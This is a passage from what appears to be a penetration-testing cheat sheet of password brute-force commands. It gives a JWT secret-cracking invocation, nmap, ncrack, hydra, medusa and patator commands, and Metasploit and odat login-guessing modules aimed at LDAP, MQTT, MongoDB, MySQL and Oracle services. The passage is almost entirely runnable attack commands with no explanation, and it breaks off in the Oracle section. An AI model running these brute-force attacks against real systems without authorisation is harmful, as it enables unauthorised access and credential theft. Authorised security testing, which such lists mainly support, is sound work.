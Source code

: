 #https://github.com/lmammino/jwt-cracker

jwt-cracker "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.TJVA95OrM7E2cBab30RMHrHDcEfxjoYZgeFONFh7HgQ" "abcdefghijklmnopqrstuwxyz" 6

LDAP

nmap --script ldap-brute -p 389 <IP>

MQTT

ncrack mqtt://127.0.0.1 --user test –P /root/Desktop/pass.txt -v

Mongo

nmap -sV --script mongodb-brute -n -p 27017 <IP>

use auxiliary/scanner/mongodb/mongodb_login

MySQL

# hydra

hydra -L usernames.txt -P pass.txt <IP> mysql

# msfconsole

msf> use auxiliary/scanner/mysql/mysql_login; set VERBOSE false

# medusa

medusa -h <IP/Host> -u <username> -P <password_list> <-f | to stop medusa on first success attempt> -t <threads> -M mysql

OracleSQL

patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017

./odat.py passwordguesser -s $SERVER -d $SID

./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt

#msf1

msf> use admin/oracle/oracle_login

msf> set RHOSTS <IP>

msf> set RPORT 1521

msf> set SID <SID>

#msf2, this option uses nmap and it fails sometimes for some reason

msf> use scanner/oracle/oracle_login

msf> set RHOSTS <IP>
